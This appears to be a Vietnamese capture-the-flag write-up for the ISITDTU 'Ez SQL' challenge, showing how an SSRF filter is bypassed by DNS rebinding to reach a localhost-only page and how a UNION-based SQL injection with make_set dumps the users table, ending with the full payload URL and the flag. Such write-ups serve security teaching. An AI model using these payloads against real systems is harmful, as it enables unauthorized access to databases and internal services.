


# Ez SQL

Bài này là SSRF + SQLi.

## SQLi

SQLi nằm ở `home.php`, và ở đây có 1 đoạn check ip:

```php
if ($_SERVER['REMOTE_ADDR'] !== "127.0.0.1") {
  die("<center>This is not a private ip</center>");
}
```

Mình tải source về build lại, xoá đoạn check phía trên đi và thực hiện SQLi trước. Đây là payload:

```sql
1 union select 1,make_set(1|4,`2`,`3`,`4`)from(select 1,2,3,4 union select * from users)a
```

Do không tìm được tên cột nên mình sử dụng `select 1,2,3,4 union select * from users` để tạo table mới từ table `users` với các cột có tên là `1`, `2`, `3` và `4` sau đó dùng `make_set` để ghép các cột lại với nhau thành 1 cột duy nhất.

Phần SQLi đã xong, việc còn lại cần làm là bypass SSRF.



## SSFR

SSRF nằm ở `index.php` và ở đây cũng có 1 đoạn check ip:

```php
function filter($url) {
	$black_lists = ['127.0.0.1', '0.0.0.0'];
	$url_parse = parse_url($url);
	$ip = gethostbyname($url_parse['host']);
    if (in_array($ip,$black_lists)) {
        return false;
    }
	return true;
}
```

Nếu hostname mình nhập vào có ip mà khác `127.0.0.1` và `0.0.0.0` thì `curl` sẽ được thực hiện. Lúc này mình cần 1 url có ip khác `127.0.0.1` để `curl` được thực hiện và có `REMOTE_ADDR` = `127.0.0.1` để SQLi được.

Ý tưởng của mình là sử dụng DNS Rebinding, tạo 1 url mà khi query đến nó sẽ ngẫu nhiên trỏ đến `127.0.0.1` hoặc một ip nào đó. Ở đây mình dùng [requestrepo.com](https://requestrepo.com) và config như sau:



Do nó sẽ trỏ ngẫu nhiên mà mình cần lần đầu tiên khi check `index.php` ip là `1.2.3.4` và lần sau tại `home.php` là `127.0.0.1`. Do đó cần request nhiều lần để thấy được flag.

Payload:

```url
http://meo.tg3xz1mm.requestrepo.com/home.php?id=1%20union%20select%201,make_set(1%7C4,%602%60,%603%60,%604%60)from(select%201,2,3,4%20union%20select%20*%20from%20users)a
```

Flag: `ISITDTU{w0w_SSRF_ch4in_SQLI_3Zzzz_h3he_!!!!}`
